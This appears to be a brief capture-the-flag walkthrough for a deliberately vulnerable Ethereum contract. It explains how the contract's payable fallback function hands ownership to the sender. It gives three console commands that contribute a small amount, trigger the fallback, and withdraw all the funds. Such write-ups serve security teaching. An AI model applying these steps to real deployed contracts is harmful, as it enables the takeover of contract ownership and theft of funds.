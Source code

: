 The function without a name, `function() payable public`, is called a fallback function.
This function sets the message sender as the owner; we just need to make sure the required
conditions are fullfilled.

First, contribute for a very small amount of ether:
`contract.contribute(0.0002)`

Then, activate the fallback function by just sending ether to the contract:
`contract.send({ value: 1 })`

Now you are contract owner ,just withdraw all the contract's funds by using:
`contract.withdraw()`
